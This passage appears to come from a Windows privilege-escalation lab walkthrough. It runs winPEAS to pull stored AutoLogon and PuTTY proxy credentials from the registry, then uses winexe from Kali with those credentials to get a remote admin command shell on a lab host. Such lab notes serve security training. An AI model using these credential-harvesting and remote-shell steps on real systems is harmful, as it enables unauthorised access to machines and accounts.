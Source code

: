 This usually generates a lot of results, so often it is more fruitful to use winpeas.

1. Use winPEAS to check common password locations:
> .\winPEASany.exe quiet filesinfo userinfo    

```powershell
C:\PrivEsc\tools>winpeasany.exe quiet filesinfo userinfo
winpeasany.exe quiete filesinfo userinfo
   Creating Dynamic lists, this could take a while, please wait...
   - Checking if domain...
   - Getting Win32_UserAccount info...
   - Creating current user groups list...
   - Creating active users list...
   - Creating disabled users list...
   - Admin users list...

-- Snip --

  ===========================================(Users Information)===========================================

-- Snip --

  [+] Looking for AutoLogon credentials(T1012)
    Some AutoLogon credentials were found!!
    DefaultUserName               :  admin
    DefaultPassword               :  password123

-- Snip --


  ==============================(Interesting files and registry)==============================

  [+] Putty Sessions()
    SessionName: BWP123F42
    ProxyPassword: password123
    ProxyUsername: admin
   =================================================================================================


-- Snip --
 ```

2. The results show both AutoLogon credentials and Putty session credentials for the admin user (admin/password123).  These can be used with winexe on kali
> winexe -U 'admin%password123' //192.168.1.174 cmd.exe

```powershell
┌──(kali㉿kali)-[~]
└─$ winexe -U 'admin%password123' //192.168.1.174 cmd.exe

Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
msedgewin10\admin

```
